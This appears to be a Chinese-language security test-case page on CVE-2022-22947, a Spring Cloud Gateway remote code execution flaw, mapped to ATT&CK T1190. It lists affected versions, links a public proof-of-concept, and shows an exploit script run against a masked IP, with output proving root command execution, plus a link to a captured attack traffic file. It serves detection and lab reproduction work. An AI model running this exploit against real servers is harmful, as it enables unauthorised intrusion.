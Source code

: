 # T1190-CVE-2022-22947-Spring Cloud Gateway远程代码执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

2022年3月1日，VMware官方发布漏洞报告，在使用Spring Colud Gateway的应用程序开启、暴露Gateway Actuator端点时，会容易造成代码注入攻击，攻击者可以制造恶意请求，在远程主机进行任意远程执行。

### 受影响版本

```yml
Spring Cloud Gateway 3.1.x < 3.1.1
Spring Cloud Gateway 3.0.x < 3.0.7
旧的、不受支持的版本也会受到影响
```

### EXP/POC

请勿用做非法用途，仅用于检测测试。

已公开Poc：

```yml
https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
```

## 检测日志

HTTP.log

## 测试复现

```bash
sudo python3 spring_cloud_RCE.py  http://123.*.*.*:*

usage: python3 test.py url

{"predicate":"RouteDefinitionRouteLocator$$Lambda$1054/1342702643","route_id":"hacktest","filters":["[[AddResponseHeader Result = 'uid=0(root) gid=0(root) groups=0(root)\n'], order = 1]"],"uri":"http://example.com:80","order":0}
```

## 测试留痕

[流量包下载地址](https://github.com/Network-security-data-sharing/Attack-traffic-PACPs/tree/main/2022/CVE-2022-22947 Spring Cloud Gateway远程代码执行.pcapng)

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Spring-Cloud-Gateway-CVE-2022-22947

<https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947>

CVE-2022-22947远程代码执行漏洞复现分析

<https://www.freebuf.com/vuls/324386.html>
